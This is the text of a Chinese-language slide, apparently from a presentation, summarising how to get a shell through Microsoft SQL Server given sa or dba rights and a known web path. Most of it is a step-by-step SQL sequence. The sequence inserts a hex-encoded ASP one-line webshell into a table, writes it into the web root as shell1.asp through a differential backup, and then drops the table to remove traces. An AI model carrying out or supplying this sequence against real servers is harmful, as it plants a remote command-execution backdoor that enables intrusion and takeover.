

MSSQL Getshell总结
MSSQL Getshell总结
条件
web路径已知
sa或dba权限
3.差异备份写shell

Tips: 差异备份成功率较低，条件相对苛刻，通常利用存储过程与日志备份写shell更为快捷。

use test;//选中库
backup database test to disk = 'c:\\inetpub\\wwwroot\\mssql1.bak’;// 手动备份一次
create table test..test1(a image);//新建临时表
insert into test..test1(a) values (0x3C25657865637574652872657175657374282261222929253EDA);//插入一句话木马到表中，注意16进制
backup database test to disk = 'c:\\inetpub\\wwwroot\\shell1.asp' with differential,format; //进行差异备份
Drop table test..test1; //备份完getshell过后删除表